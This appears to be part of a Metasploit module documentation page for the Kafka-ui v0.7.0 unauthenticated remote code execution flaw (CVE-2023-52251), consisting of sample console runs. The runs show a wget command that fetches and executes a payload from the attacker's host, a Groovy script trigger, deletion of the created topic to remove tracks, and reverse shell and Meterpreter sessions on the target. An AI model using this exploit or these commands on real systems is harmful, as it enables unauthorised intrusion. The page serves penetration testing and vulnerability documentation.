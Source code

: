```shell
[+] New topic created: 9nQbg
[*] Trigger Groovy script payload execution by creating a message...
[*] Removing tracks...
[+] Successfully deleted topic 9nQbg.
[*] Command shell session 28 opened (192.168.201.8:4444 -> 192.168.201.25:49429) at 2024-01-20 18:44:52 +0000

uname -a
Linux 889a0c5cec88 6.4.16-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Nov 16 10:55:59 UTC 2023 x86_64 Linux
id
uid=100(kafkaui) gid=101(kafkaui) groups=101(kafkaui)
```
### Kafka-ui v0.7.0 Unix/Linux Command - cmd/linux/http/x64/meterpreter_reverse_tcp
```shell
msf exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > exploit

[*] Command to run on remote host: wget -qO /tmp/LfMsMsUxX http://192.168.201.8:1981/Qw3rZo-yo18aYrvy_AQU-w; chmod +x /tmp/LfMsMsUxX; /tmp/LfMsMsUxX &
[*] Fetch Handler listening on 192.168.201.8:1981
[*] HTTP server started
[*] Adding resource /Qw3rZo-yo18aYrvy_AQU-w
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.25:8080 can be exploited.
[+] The target appears to be vulnerable. Kafka-ui version: 0.7.0
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter_reverse_tcp
[*] Searching for active Kafka cluster...
[+] Active Kafka cluster found: local
[*] Creating a new topic...
[+] New topic created: D9kH687
[*] Trigger Groovy script payload execution by creating a message...
[*] Removing tracks...
[*] Client 192.168.201.25 requested /Qw3rZo-yo18aYrvy_AQU-w
[*] Sending payload to 192.168.201.25 (Wget)
[+] Successfully deleted topic D9kH687.
[*] Meterpreter session 29 opened (192.168.201.8:4444 -> 192.168.201.25:50355) at 2024-01-23 08:47:41 +0000

meterpreter > sysinfo
Computer     : 172.30.0.4
OS           :  (Linux 6.4.16-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: kafkaui
meterpreter >
```

## Limitations
No limitations.
